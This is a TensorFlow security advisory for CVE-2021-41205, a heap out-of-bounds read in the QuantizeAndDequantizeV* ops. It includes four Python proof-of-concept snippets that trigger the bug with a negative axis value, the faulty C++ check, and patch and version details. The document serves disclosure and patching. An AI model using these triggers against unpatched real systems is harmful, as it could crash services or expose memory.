 ## TFSA-2021-185: Heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops

### CVE Number
CVE-2021-41205

### Impact
The [shape inference functions for the `QuantizeAndDequantizeV*` operations](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/array_ops.cc) can trigger a read outside of bounds of heap allocated array as illustrated in the following sets of PoCs:

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4Grad(
    gradients=[1.0,1.0],
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV3(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV2(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

In all of these cases, `axis` is a negative value different than the special value used for optional/unknown dimensions (i.e., -1). However, the code ignores the occurrences of these values:

```cc
...
if (axis != -1) {
  ...
  c->Dim(input, axis);
  ...
}
```

### Patches
We have patched the issue in GitHub commit [7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d](https://github.com/tensorflow/tensorflow/commit/7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
